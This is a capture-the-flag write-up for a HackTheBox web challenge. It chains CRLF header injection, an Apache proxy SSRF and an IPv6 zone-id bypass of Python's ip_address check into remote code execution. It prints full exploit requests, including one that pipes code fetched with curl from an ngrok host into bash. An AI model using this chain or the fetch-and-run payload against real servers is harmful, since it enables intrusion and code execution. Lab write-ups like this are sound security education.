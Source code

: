 ```yaml
---
layout: post
title: "[HTB] Hackthebox Cyber Attack Writeup"
slug: "cyberattack"
date: "2025-03-29"
comments: false
categories:
  - hacking
tags:
  - ctf
  - hackthebox
  - 2025
  - Cyber Apocalypse
  - apache
  - ssrf
  - crlf
---
```


This is easy web challenge from [hackthebox.com] Cyber Apocalypse 2026 Tales from Eldoria. In this challenge we are provided with an `ip:port` and `source code` of the web app.

Navigating to the web app we are greeted with this page.
![index](/images/cyberAttack/index.png)

We have functionality to attack a `domain` and `ip` but only `domain` is enabled when we enter inputs.
![domain_test](/images/cyberAttack/attack_domain_test.com.png)

We can only input valid domain names with TLD, and entry of `localhost` doesn't work.
![localhost](/images/cyberAttack/attack_domain_localhost.png)

Since we are provided with the source code, let's dive right into it without wasting time on enumerating the site and its functionalities.

In `apache/apache2.conf`.

```conf
ServerName CyberAttack

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip">
Order deny,allow
Deny from all
Allow from 127.0.0.1
Allow from ::1
</Location>
```

We can see that the path `/cgi-bin/attack-ip` is only accessible from localhost and all attempts to access it will be denied as stated in the `apache2.conf`.

![403](/images/cyberAttack/403_attack_ip.png)

Now let's analyse index page at `/src/index.php`
```javascript
...
const isLocalIP = (ip) => {
return ip === "127.0.0.1" || ip === "::1" || ip.startsWith("192.168.");
};
// Get the user's IP address
const userIP = "<?php echo $_SERVER['REMOTE_ADDR']; ?>";
// Enable/disable the "Attack IP" button based on the user's IP
const attackIPButton = document.getElementById("attack-ip");
// Enable buttons if required fields are filled
const enableButtons = () => {
const playerName = document.getElementById("user-name").value;
const target = document.getElementById("target").value;
const attackDomainButton = document.getElementById("attack-domain");
...
```

`userIP` is taken and buttons are enabled based on the ip. Nothing much to go on here. We see some calls to `cgi-bin/*` so let's shift our focus on those first.

For the file `src/cgi-bin/attack-domain`
```python
#!/usr/bin/env python3
import cgi
import os
import re  

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}')
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
print('Content-Type: text/html')
print()
```

We can see that it takes two parameters from the http request `name` and `target` and then the `target` parameter is passed through `is_domain(target)` function which uses a regex match to check if it a valid TLD address. So basically `test.com` works but `sub.test.com`,`-test.com`, `test.com/folder` and other `urls` don't work and an error is shown.

If the domain name check passes then the input is used to call a system command using `os.popen` which calls `ping` on the target. This is a serious security flaw if somehow the `regex` is bypassed. For example an attacker could gain `RCE` with payloads like `test.com;whoami`. A reflected `XSS` can also be triggered since the `name` is printed if an error occurs. 

- A possible RCE if regex is bypassed on the domain name.
- Reflected XSS on name parameter.

Let's proceed further and analyse the next file `src/cgi-bin/attack-ip`.

```python
#!/usr/bin/env python3
import cgi
import os
from ipaddress import ip_address  

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
 
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}')
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
print('Content-Type: text/html')
print()
```

This is similar to our `attack-domain` python script but this time the target is an IP address and it uses an import of `ip_address` which check if the `target` is a valid IP address. This code also has the same vulnerability to get `RCE` since it uses `os.popen` to run a `ping` on the `target`. 

While trying to bypass the `regex` on `attack-domain` does not yield us anything, we  shift our focus on the `name` parameter.

We can see that when an error is triggered, the `name` parameter is also returned in the `http` response headers.

![header_error](/images/cyberAttack/header_error.png)

So we can try other vulnerabilities. 
- [x] reflected xss

We can try `crlf` to inject additional headers.
![injected_headers](/images/cyberAttack/injected_headers.png)

After some researching we find this wonderful blog post on apache's vulnerability by [orangetsai](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/) 
![blog_excerpt](/images/cyberAttack/blog_excerpt.png)

We test the exploit we got from the blog.
![proxy](/images/cyberAttack/proxy_works.png) 

We are able to cause ssrf on the server.

We try it on the `attack-ip` but got error.
![attack_ip](/images/cyberAttack/trying_ssrf_attack_ip.png)

So we url encode the characters.
![url_encode](/images/cyberAttack/url_encode.png)

```http
GET /cgi-bin/attack-domain?target=test&name=test%0d%0aLocation:/ooo%0d%0aContent-Type:proxy:http%3a%2f%2f127.0.0.1%2fcgi-bin%2fattack-ip%3ftarget%3d10.10.10.10%26name=test2%0d%0a%0d%0a
```

We now have a way to perform `SSRF` to call `attack-ip` but we also have to find a way to bypass the `ip_address()` check in the code to execute any code.

```python
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}')
    print(f'Location: ../?result=Succesfully attacked {target}!')

```

After some digging around on the `ip_address()` in python, we can see that in ipv6 we can insert zone id using `%` character.  So `::1%test` is also a valid ipv6 entry.

![[bypass_ipAddress.png
We are able to bypass the check get code execution.

Let's proceeds further.
```entry.sh
#!/bin/bash
mv /flag.txt /flag-$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 15).txt

# Start supervisord
/usr/bin/supervisord -c /etc/supervisor/conf.d/supervisord.conf
```

We can see that the flag name is randomised.

We also know that that we won't get output of the command executed from the server so we can either get a reverse shell or get the contents of the flag as a web request or write it in the webroot folder and access it from there. But in our attack input we cannot use `/` and neither can we `base64` encode since `url` are not character sensitive. So we have to find a way to execute our payload.

Since we are not using any VPS and don't have a static public IP, we will use `ngrok` to make our host machine publicly available.

![ngrok](/images/cyberAttack/ngrok_online.png)

We create a `python` http server on our host and get a callback to our machine.
In `ngrok` free tier there is a page which block and then redirects our request so we have to user `curl --location` in our request to follow the request. Just a minor inconvenience.

![curl_ngrok](/images/cyberAttack/curl_ngrok.png)

We get a request on our python server and can see that our `RCE` has been successfully achieved.
![python_http](/images/cyberAttack/python_http_server.png)

Now let's host our malicious code and host it on our server and since `/` cannot be used, we will use the `index.html` to host our code and `pipe` it to `bash`.

```index.html
cat /flag* > /var/www/html/pwned.txt
```

So our request will look like this.
```http
GET /cgi-bin/attack-domain?target=error&name=test%0d%0aLocation:/ooo%0d%0aContent-Type:proxy:http%3a%2f%2f127.0.0.1%2fcgi-bin%2fattack-ip%3ftarget%3d::1%$(curl%2b--location%2b842c-152-58-7-106.ngrok-free.app|bash)%26name=test2%0d%0a%0d%0a 
```

![burp_success](/images/cyberAttack/burp_success.png)

The code got successfully executed and we got our flag by navigating to `/pwned.txt`.
![pwned](/images/cyberAttack/pwned.png)

This easy challenge from hackthebox was actually difficult and a fun challenge to solve. 

> Overall 42/77 Challenges solved from the team. Not bad!

![certificate](/images/cyberAttack/certificate_of_participation.png)